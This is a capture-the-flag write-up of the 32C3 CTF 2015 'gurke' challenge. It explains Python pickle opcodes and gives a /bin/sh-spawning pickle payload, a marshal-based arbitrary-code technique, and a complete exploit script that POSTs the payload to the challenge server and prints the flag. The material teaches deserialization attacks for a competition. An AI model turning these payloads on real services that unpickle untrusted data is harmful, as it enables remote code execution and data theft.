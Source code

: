 # 32C3 CTF 2015: gurke - Misc 300

> Non-standard [gurke](./gurke.py): <https://32c3ctf.ccc.ac/uploads/gurke> Talk to it via HTTP on <http://136.243.194.43/.>

For this challenge, there is a script running on a server, and we are given the [source](./gurke.py). The server only accepts POST requests, and processes the data included in the request.

There are basically 3 parts to this program:

1. Load the flag and save in in an object called `flag` (so it is accessible as `flag.flag`)
2. Start a seccomp sandbox
3. Read the POST data sent in by the user, unpickle it, and print the result

Since this program accepts our own pickle data, we can easily achieve arbitrary code execution by taking advantage of how pickle works.

## Pickle Code Execution
Pickle is a stack-based language, and its intended usage is to serialize and deserialize objects. In order to get our own code to execute, there are 6 pickle operations we need to understand:

1. `c`: Reads to the next newline as the `module`, then reads the next line as the `object`. It then pushes `module.object` onto the stack
2. `(`: Pushes a marker onto the stack, which can be used alongside `t` to create a tuple
3. `t`: Pops objects off the stack until it reaches a `(`, then creates a tuple of all the popped objects and pushes it onto the stack
4. `S`: Reads a string in quotes and pushes it onto the stack
5. `R`: Pops a tuple and a callable off the stack, then calls the callable with the tuple as its arguments
6. `.`: End of the pickle

## Code Execution Example

Using these commands, here's an example of how to get a shell using pickle, just for demonstration:

```
cos
system
(S'/bin/sh'
tR.
```
This will cause pickle to start a shell following these steps:

1. `c` is reached,  then read `os` as the module and `system` as the object, so it pushes `os.system` onto the stack
2. The `(` marker is pushed onto the stack
3. `S` is reached, so it reads `'/bin/sh'` as a string and pushes it onto the stack
4. Reading in the `t`, it pops `'/bin/sh'` off the stack, puts it in a tuple, and pushes the tuple back onto the stack
5. Finally, the `R` is reached, so it pops `('/bin/sh')` and `os.system` off the stack, and calls `os.system('/bin/sh')`

## Running Our Own Code

While the above works for making simple calls, arbitrary code can't be pickled in the same way. However, thanks to a python library called marshal, a custom function can be serialized and sent to the server, where pickle can use marshal to deserialize and call it.

Any function can be serialized as a base64 string using marshal like so:
```python
def func():
	print "Hello World!"

print base64.b64encode(marshal.dumps(func.func_code))
```

Which results in something like:

```
YwAAAAAAAAAAAQAAAEMAAABzCQAAAGQBAEdIZAAAUygCAAAATnMMAAAASGVsbG8gV29ybGQhKAAAAAAoAAAAACgAAAAAKAAAAABzNQAAAEM6L1VzZXJzL2thcmVlXzAwMC9QeWNoYXJtUHJvamVjdHMvMzJDMyAyMDE1L2d1cmtlLnB5dAQAAABmdW5jCAAAAHMCAAAAAAE=
```

This allows us to change func() to anything we want, and have it serialized the same way

The base64 string then has to be deserialized and called by pickle, using only a series of function calls. This can be done like so:

```python
(types.FunctionType(marshal.loads(base64.b64decode('YwAAAAAAAAAAAQAA....')), globals(), ''))()
```

Which then translates to a pickle string that can be easily sent to the server as:

```
ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwAAAAAAAAAAAQAA....'
tRtRc__builtin__
globals
(tRS''
tR(tR.
```

Using this as a template, I wrote a script to send a pickled function to the server that would print out the flag. (**NOTE:** Printing to stdout didn't seem to be working, so the code being sent prints to stderr)

```python
import base64
import marshal
import requests


# This function will be serialized and sent to the server,
# then pickle will deserialize and call it
def func():
    import sys

    # Printing to stdout doesn't work, so this prints to stderr
    def p(m):
        print >> sys.stderr, m

    # Use p() to print stuff
    p("TEST")

    # When this function is called, we will be inside the pickle module,
    # so to print the flag it has to be accessed from __main__
    import __main__
    p(__main__.flag.flag)


# Wizardry to get pickle to execute the above function on the server
pckl = "ctypes\nFunctionType\n(cmarshal\nloads\n(cbase64\nb64decode\n(S'%s'\ntRtRc__builtin__\nglobals\n(tRS''\ntR(tR." % base64.b64encode(marshal.dumps(func.func_code))
r = requests.post('http://136.243.194.43', pckl)  # Send the pickle
print r.text

```

Then running the above code, the flag is printed out:
```
32c3_rooDahPaeR3JaibahYeigoong
```

If you're interested in reading more about code execution with pickle, check out [this article](https://www.cs.uic.edu/~s/musings/pickle.html), and [this paper](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf)